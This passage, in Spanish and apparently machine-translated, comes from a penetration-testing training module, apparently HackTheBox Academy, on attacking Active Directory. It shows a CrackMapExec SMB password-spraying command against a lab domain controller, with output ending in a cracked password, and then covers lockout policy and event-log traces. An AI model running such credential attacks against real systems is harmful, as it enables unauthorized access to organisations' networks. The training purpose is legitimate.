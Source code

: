 Una vez que tenemos nuestra (s) lista (s) preparada o descubramos la Convención de Naming y algunos nombres de los empleados, podemos lanzar nuestro ataque contra el controlador de dominio objetivo utilizando una herramienta como CrackMapexec. Podemos usarlo junto con el protocolo SMB para enviar solicitudes de inicio de sesión al controlador de dominio de destino. Aquí está el comando para hacerlo:

Atacando activo directorio y ntds.dit

```
xnoxos@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txtSMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd!

```

En este ejemplo, CrackMapexec está utilizando SMB para intentar iniciar sesión como usuario (`-u`) `bwilliamson`Usando una contraseña (`-p`) Lista que contiene una lista de contraseñas de uso común (`/usr/share/wordlists/fasttrack.txt`). Si los administradores configuraron una política de bloqueo de la cuenta, este ataque podría bloquear la cuenta a la que estamos dirigidos. Al momento de escribir este artículo (enero de 2022), una política de bloqueo de cuenta no se aplica de forma predeterminada con las políticas de grupo predeterminadas que se aplican a un dominio de Windows, lo que significa que es posible que nos encontremos con entornos vulnerables a este ataque exacto que estamos practicando.

### **Registros de eventos del ataque**

![](https://academy.hackthebox.com/storage/modules/147/events_dc.png)

Puede ser útil saber qué podría haber quedado atrás por un ataque. Saber esto puede hacer que nuestras recomendaciones de remediación sean más impactantes y valiosas para el cliente con el que estamos trabajando. En cualquier sistema operativo de Windows, un administrador puede navegar a`Event Viewer`y ver los eventos de seguridad para ver las acciones exactas que se registraron. Esto puede informar las decisiones de implementar controles de seguridad más estrictos y ayudar en cualquier investigación potencial que pueda estar involucrada después de una violación.

Una vez que hayamos descubierto algunas credenciales, podríamos proceder a tratar de obtener acceso remoto al controlador de dominio de destino y capturar el archivo ntds.dit.

---
